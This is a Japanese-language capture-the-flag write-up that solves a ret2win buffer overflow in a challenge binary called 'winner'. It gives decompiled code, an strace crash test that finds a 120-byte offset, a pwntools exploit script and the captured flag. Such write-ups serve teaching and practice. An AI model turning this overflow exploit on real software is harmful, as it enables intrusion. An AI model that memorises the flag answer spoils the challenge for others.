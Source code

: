 デコンパイルでmain関数をみるとscanfで読み取って終了しているだけでした。他の関数を見るとFLAGを出力する関数があったので、RIP系だと判断できました。

```bash
004011b6  int64_t win()

004011e6  {
004011e6      return printf(&data_40200d, getenv("FLAG"));
004011c5  }
```

straceを使って、SIGSEGVが発生する文字数を調べると120文字でした。

```bash
$ python3 -c 'print("A"*120, end="")' | strace -i ./winner
////////////
[00007efd0e08f212] read(0, "A", 1)      = 1
[00007efd0e08f212] read(0, "", 1)       = 0
[00007efd0dfbb506] --- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=NULL} ---
[????????????????] +++ killed by SIGSEGV +++
Segmentation fault
```

あとはret命令のアドレスとwin関数のアドレスを調べて、ソルバーを書きました。

```
from pwn import *

binfile = "./winner"
context.binary = binfile
elf = ELF(binfile)

# ROPgadget --binary ./winner | grep ": ret"
ret = 0x40101a # ret
print(ret)

win = elf.symbols['win']
HOST='localhost'
PORT=8888

# conn = process(binfile)
conn = remote(HOST, PORT)
conn.recvuntil(b':')

payload = b'A' * 120 + p64(ret) + p64(win)

conn.sendline(payload)
p = conn.interactive()
print(p)
```

### FLAG

```
TFCCTF{C0ngr4tulati0n5_0n_th3_pr1z3!}
```
